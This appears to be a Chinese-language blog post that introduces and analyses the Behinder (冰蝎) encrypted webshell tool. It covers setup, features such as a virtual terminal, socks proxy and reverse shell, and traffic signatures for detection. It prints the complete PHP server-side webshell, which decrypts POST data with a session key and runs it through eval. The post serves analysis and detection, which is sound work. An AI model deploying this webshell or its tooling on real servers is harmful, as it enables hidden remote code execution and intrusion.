

使用方法与特性简介
冰蝎
00 项目地址
GitHub地址
可以在此处看到作者的介绍
下面是摘抄的作者运行环境介绍和FAQ
运行环境
- 客户端：jre6~jre8
- 服务端：.net 2.0+;php 5.4-7.2;java 6+
FAQ
Mac系统下好像打不开？
Mac系统下需要通过-XstartOnFirstThread参数启动，java -XstartOnFirstThread -jar Behinder.jar。
直接用浏览器访问shell会报错？
客户端附带的服务端为最简版本，没有做容错处理，所以直接浏览器访问可能会报错，但是不影响客户端正常连接。如果不介意服务端体积增加几个字节，可以自己加一些容错判断语句。
我可以对shell进行修改么？
客户端附带的服务端可以进行各种变形，只要基本逻辑不变，客户端即可正常连接。
开了socks代理，但是服务器并没有开启代理端口？
socks代理的端口不是开在远程服务器上的，是开在本地的，利用socks客户端直接连接本地IP的代理端口即可，冰蝎会把本地端口的流量通过http隧道透传至远程服务器网络。
01 使用
界面如下，与同类工具相似
在空白处右键即可添加新连接
双击一个连接即可进行进一步操作
虚拟终端、socks代理、文件管理、反弹shell、数据库管理等
具体介绍可以看作者的介绍
02 通信
与常见的webshell相比，冰蝎的shell最大特点是对通信进行了加密
以PHP代码为例进行分析，PHP shell代码如下：
<?php
@error_reporting(0);
session_start();
if (isset($_GET['pass']))
{
$key=substr(md5(uniqid(rand())),16);
$_SESSION['k']=$key;
print $key;
}
else
{
$key=$_SESSION['k'];
$post=file_get_contents("php://input");
if(!extension_loaded('openssl'))
{
$t="base64_"."decode";
$post=$t($post."");
for($i=0;$i<strlen($post);$i++) {
$post[$i] = $post[$i]^$key[$i+1&15];
}
}
else
{
$post=openssl_decrypt($post, "AES128", $key);
}
$arr=explode('|',$post);
$func=$arr[0];
$params=$arr[1];
class C{public function __construct($p) {eval($p."");}}
@new C($params);
}
?>通信过程：
检测GET请求是否有?pass参数，产生随机的16位长密钥写入session，可以抓包分析密钥与PHPSESSID的对应情况
密钥生成方式如下，确保密钥难以计算和预测$key=substr(md5(uniqid(rand())),16);检测是否开启了OpenSSL
- 如果开启，就使用密钥进行AES加密
- 如果没有开启，就进行异或然后base64加密
作者所作流程图如下：

更详细的介绍可以看 这里
03 检测
由于冰蝎对通信过程进行了加密，一般的检测方法无法识别出其中的恶意内容，但它仍存在一些可供检测的特征
连接开始时固定发送一个有pass参数GET请求
获取密钥时固定返回一个16位的密钥，可以用正则判断
v1.0版本中User-Agent头为JDK版本，之后的版本为在十几种常见User-Agent头中随机选取，下图来自网络
shell中含有加密、解密、命令执行等相关关键字，可以据此对上传的文件进行判断
对通信数据的base64编码和二进制编码进行匹配
本博客所有文章除特别声明外，均采用 CC BY-SA 3.0协议 。转载请注明出处！